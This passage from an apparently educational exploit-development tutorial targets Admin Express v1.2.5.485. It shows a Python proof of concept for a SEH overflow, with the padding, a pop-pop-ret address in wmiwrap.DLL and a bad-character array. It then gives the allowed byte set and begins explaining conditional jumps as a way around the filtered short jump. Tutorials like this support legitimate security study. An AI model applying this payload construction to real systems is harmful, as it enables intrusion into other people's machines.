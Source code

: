 Well, this is a problem. A short jump is the typical instruction for jumping we are used to. It is evidently a bad character. We now need to determine what all the other bad characters are, so we do not run into this problem again. [Here](https://bulbsecurity.com/finding-bad-characters-with-immunity-debugger-and-mona-py/) is a place that automatically stores all the characters possible into a variable. I have also updated the PoC:

```console
root@kali:~/ADMIN_EXPRESS/POC# cat poc.py 
# Proof of Concept - Admin Express v1.2.5.485 Exploit

badchars = ("\x00\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f"
"\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40"
"\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f"
"\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f"
"\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f"
"\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf"
"\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf"
"\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff")

payload = "\x41" * 4260
#payload += "\xeb\x06\x90\x90"          # Short jump 6 bytes into C buffer
payload += "\x42\x4c\x01\x10"           # 0x10014c42 pop pop ret wmiwrap.DLL
payload += badchars                     # Adding bad characters.
payload += "\x43" * (5000-len(payload))

print payload

#f = open('pwn.txt', 'w')
#f.write(payload)
#f.close()
```
You may have to break the bad characters up into two sections. When printing these characters to the console, you will notice a break in the lines. Just try chunks of the characters at a time. In the end, when you throw all these characters at the application you will find the allowed character set. To save time, I will provide it to you. The allowed characters for this exploit are as follows (in hex):
`01-04, 06, 10-7E`. This will prove to provide some challenges going forward. But for now, just remember these characters are bad.

Are We There Yet?
---
So, there is a dilemma at this point. How can we jump to where our expected shellcode is going to be without our opcode `eb`? We are going to have to use a different type of instruction. The instruction we are going to use is `Jump If Overflow` and `Jump If Not Overflow`, known as `JO` and `JNO`, respectively.
